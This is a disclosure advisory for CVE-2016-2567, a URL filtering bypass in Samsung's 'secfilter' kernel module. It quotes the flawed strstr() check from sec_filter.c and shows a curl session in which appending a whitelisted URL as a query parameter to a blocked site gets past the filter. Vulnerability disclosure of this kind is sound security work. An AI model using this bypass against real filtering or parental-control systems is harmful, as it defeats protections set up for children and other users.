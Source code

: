 # URL filtering bypass in Samsung module 'secfilter' #

* _Authors_: Aristide Fattori ([@joystick](https://twitter.com/joystick)) and Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari))
* _ID_: CVE-2016-2567
* _Notification date_: 30/10/2015
* _Release date_: 24/02/2016

Some weeks ago we
[wrote](https://github.com/ud2/advisories/tree/master/android/samsung/nocve-2016-0001)
about `secfilter`, a proprietary Samsung kernel module for supporting URL
filtering applications (e.g., for parental control).

Besides the NULL pointer dereference described in the previous advisory, we
also identified a pretty trivial bypass technique which permits a user-space
application to completely circumvent the URL filtering system.

In a nutshell, the App which controls the URL filtering mechanism (`secfilter`) can
choose an "exceptional URL" that is automatically whitelisted by the kernel
module, as shown in the code above. The relevant source code snippet that
implements this behavior is reported below (from `sec_filter.c`):

	// Check this is exceptional URL
	if ((exceptionURL != NULL) && (gettingNode->url !=NULL))        {
		//This is exception URL
		if (strstr(&gettingNode->url[sizeof(URL_Info)], exceptionURL) != NULL)
		  {
			free_tcp_TrackInfo(gettingNode);      // Free this getting track info
			nf_reinject(entry, NF_ACCEPT);        // Send this packet because it is exception
			return 0;
		  }
	  }

In the code snippet above the "exceptional URL" is represented by the character
string pointed by `exceptionURL`, while `gettingNode->url` is the URL the user
is trying to access.

However, the check is performed through a `strstr()` call. This permits
local applications to completely circumvent the URL filtering mechanism, just
by including an "exceptional URL" string among the `GET` parameters.

As an example, assume that `exceptionURL` has been set to
`http://google.com/`. Then, visiting `http://evil.com/?http://google.com` would
allow to bypass the filter completely. This is also demonstrated by the
following shell session:

```bash
$ curl -v http://evil.com/
*   Trying 192.220.74.179...
* Connected to evil.com (192.220.74.179) port 80 (#0)
> GET / HTTP/1.1
> Host: evil.com
> User-Agent: curl/7.45.0
> Accept: */*
>
< HTTP/1.1 404 Not Found
< Content-Type: text/html
< Content-Length: 60
<
<html><head></head><body>This Site is Blocked!</body></html>

$  curl -v http://evil.com/?http://google.com/
*   Trying 192.220.74.179...
* Connected to evil.com (192.220.74.179) port 80 (#0)
> GET /?http://google.com/ HTTP/1.1
> Host: evil.com
> User-Agent: curl/7.45.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Wed, 28 Oct 2015 10:16:51 GMT
< Server: Apache
```

## Affected devices ##

We confirm this issue affects the following device models. Other models and
firmware versions are probably affected as well, but they were not tested.

* SM-N9005, build N9005XXUGBOB6 (Note 3)
* SM-G920F, build G920FXXU2COH2 (Galaxy S6)
